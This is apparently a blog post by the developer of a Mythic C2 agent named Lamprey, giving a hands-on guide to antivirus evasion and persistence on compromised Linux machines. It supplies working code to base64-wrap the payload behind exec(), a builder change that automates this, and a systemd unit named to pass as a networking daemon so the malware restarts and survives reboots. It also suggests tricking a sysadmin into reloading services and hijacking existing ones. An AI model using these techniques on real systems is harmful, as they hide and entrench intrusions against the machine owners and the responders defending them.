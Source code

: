 # Persistence in a Victim with my Mythic Agent, Lamprey - Linux Edition
## Introduction
I recently developed an agent for the Mythic C2 framework.  I wanted to learn how to effectively use it, so I figured I would play with persistence methods in Linux to stay in a victim, and stay quiet.  
Is my agent the best one out there?  No.  Are there better Python ones?  Absoulutely.  However, I understand Lamprey better then I understand Medusa (or any other agent), which will allow me to have better control of what goes on in the victim.  A tool's utility is directly proportional to your understanding of it. 
Do I have a plan for how this blog post is going to go?  Not really.  I am just going to try different methods and write about them as I go. 

## EDR/AV Evasion
IF you can't execute on a system because of an EDR or AV, it doesn't matter how well you can hide yourself from an IRT.  Let's see what commonly-used EDRs/AVs think of Lamprey:

### Virustotal
The go-to tool to check if a file is malware is virustotal.com.  It's super easy to upload a file and get opinions from a ton of the most well-known AVs out there.  Do they like Lamprey?  Let's upload a sample.  
![virustotal Lamprey](/images/2022/virustotalLamprey.png){:class="img-responsive"}
Surprisingly, despite the use of POST calls and `os.popen()`, that apparently isn't enough to trigger these AVs to label Lamprey as malware.  I see this as an absolute win!
I think we can do a little better though.  

### Evasion is Based
_(Ok, I don't like how kids these days talk either, I'm talking about a different kind of base... I promise)_
Even though Lamprey isn't detected by anything on virustotal, that doesn't mean we can't still make it harder to detect.  Good enough isn't fun when we know how to do better.  Let's use a very interesting Python function to make Lamprey one layer deeper.  That is, `exec()`.  `exec()` executes a string as though it were Python code.  So here's my plan:  Encode a Lampry.py payload into base64, copy that as a string in to a variable in a new Python payload, add another line in that payload that will decode the string from base64 and send it to `exec()`.  This way, even if the `os.popen()` call is flagged by some software on the victim, that string will never be in the file in the first place.  All the decoding is happening in memory, not on the disk.  This also helps evasion against IRTs or nosy users.  (Although, if they know anything about what they're doing, they'll immediately recognise what is going on, so don't put too much faith in this method.)  So, it's all good and fine to do this manually, but we are using the powerful Mythic framework, are we not?  (That was rhetorical, we are using it.)  We can make this base64 encoding an option in the build options section of Lamprey itself.  Then, if that flag is set, in builder.py, we can take the built payload, translate it into base64, and add the decoder.  In fact, all this happens in builder.py.  Let's add that now:

#### Theory is Boring, Let's Code
First, we need the decoder, so we can bring it into the builder.py script.  In the agent_code directory (where base_agent.py is located), create a file called decoder.py.  In it, we will have the code:
```
import base64
encoded = "encoded_code"
exec(base64.b64decode(encoded.encode()))
```
This is a pretty self-explanatory three lines of code.  The only think you will want to make note of, is that the "encoded_code" string (but not the quotation marks) will be replaced with the encoded form of Lamprey.py. 

Now that we have the decoder finished, we need to edit builder.py (in the mythic/agent_functions directory).  The first addition we want to add is the build parameter so the operator can choose if they want it to be base64 encoded or not.  in the build_parameters array, we need to add the following:
```
BuildParameter(
            name="encoding",
            parameter_type=BuildParameterType.ChooseOne,
            description="Choose payload encoding",
            choices=["py", "base64"],
            default_value="py"
        ),
```
These gives the metadata to the Mythic UI so it can give the operator the choice betwen a standard py output or the new base64 one.  
Next, we add the code to actually implement the decoder.  In the "build" function, right before it returns the base_code, add the following lines:
```
if self.get_parameter("encoding") == "base64":
            encoded_code = base64.b64encode(base_code.encode())
            decoder_code = open(self.agent_code_path / "decoder.py", "r").read()
            base_code = decoder_code.replace("encoded_code",encoded_code.decode())
```
This checks the "encoding" build parameter that we specified previously to see if "base64" was selected.  If it was, encode the current base_code that is Lamprey.py.  Then, we open decoder.py and store that as a string in decoder_code.  Finally, we replace the "encoded_code" string that I mentioned earlier with encoded_code (the encoded version of Lamprey.py) and assign that to base_code, right before it returns that to Mythic.  

And that's it!  We can build a base64 encoded form of Lamprey! 
Oh man, this think looks evil.
![lamprey base64](/images/2022/lampreyB64.png){:class="img-responsive"}
## Embedding in the System
Our goal in persistence is to invisible and hard to get rid of.  Let's talk about that.  (*insert rooster breathing fire*)

### Services
In Linux, a ton of programs run in the background without users seeing much evidence that they are doing so.  Normally, these are things like webservers, networking managers, and other system-related tasks that the user doesn't care much about the operation of.  These are all run as services.  You might be tempted to think that the best part of services for our purposes is their relative invisibility.  While this is certainly a really useful attribute, it isn't the most beneficial aspect of using services to run Lamprey.  We can make services run at startup.  Yep, that's right, we can embed our malware in the system, so that it doesn't stop when a user inevitably restarts the box.  Combine that with services' relatively invisible nature, and we have a fantastic starting point for persistence.  
A great resource I used to implement Lamprey as a service (can I please call it LaaS?) is [this Medium site.](https://medium.com/codex/setup-a-python-script-as-a-service-through-systemctl-systemd-f0cc55a42267)
Again, theory is only valuable if we implement it.  Let's get to work.  (Note: This won't generate in Mythic, this is a custom systemd service file that you will have to make yourself)

#### Coding Time Again
Make a file in /etc/systemd/system/ called <servicename>.service.  You could call it Lamprey.service, but do you really want to be that blatant?  I think something nicer like networkd-dispatch.service sounds much more "normal" to someone who might not know better.  Anyway, pick a name and make that file.  Then, we can write the following to that file:
```
[Unit]
Description=Networking daemon service dispatcher
After=multi-user.target

[Service]
Type=simple
Restart=always
ExecStart=/usr/bin/python3 <path to>/Lamprey.py

[Install]
WantedBy=multi-user.target
```
This is the most general use-case form of this service.  There are a couple tweaks we could make though for special situations.
 - After: This tells the service to start only afer the multi-user runtime is reached.  If we wanted, we could theoretically have this service run at a lower service level.  I haven't actually tried this, but it should work in theory. 
 - Restart: Right now, restart is set to always.  This means that service will automatically restart when exited (or if it fails).  While this does add another level of persistence, it doesn't allow us to truly exit Lamprey from the Mythic console, as it will keep restarting.  If we are trying to stay hidden, there may be times when we really need Lamprey to die, which Restart=always won't allow. 
 - ExecStart: I left Lamprey.py as the filename as the file to run.  Again, this isn't very hidden.  So, I would change the name of the payload to something more similar to your service name/description.  In my case, I would probably call it networkd-dispatch.py.  

#### Implementation
Once you have Lamprey.py and the service file on the target (you could even use Lamprey to make the file on the victim), we need to implement it.  There are a couple primary steps:
1) Move the service file to /etc/systemd/system/
2) Run `systemctl daemon-reload`.  This lets systemctl know that there is a new service.  Note this will likely require sudo perms.  If you don't have the ability to reload the daemon, you can always wait until the sysadmin does one day.  (Maybe break something subtile in on of the services and try to get the sysadmin to do this for you ;D  Don't be too noisy though.)
3) Run `systemctl enable <service name>`.  This will cause your service to run on startup.  

And there you have it!  A nice persistence mechanism to keep your Mythic agent (or any other payload really) running on a target.

## Conclusion
Evasion and persistence is a very wide topic, and we have only scratched the surface with one method for each. 
If you want to keep researching, here are some ideas I might very well write about in the future:
 - AES encrypt the payload instead of just encoding it.  Lock down your own files so nobody can access them without your permission. This could also be useful for self destruction if a sandbox-detection system is added
 - Take over existing services on a system to run the payload.  Misconfigured permissions and a server running a lot of services would be a prime environment for one hijacked service to get lost in the data.

As always, thanks for reading and I hope you learned something!

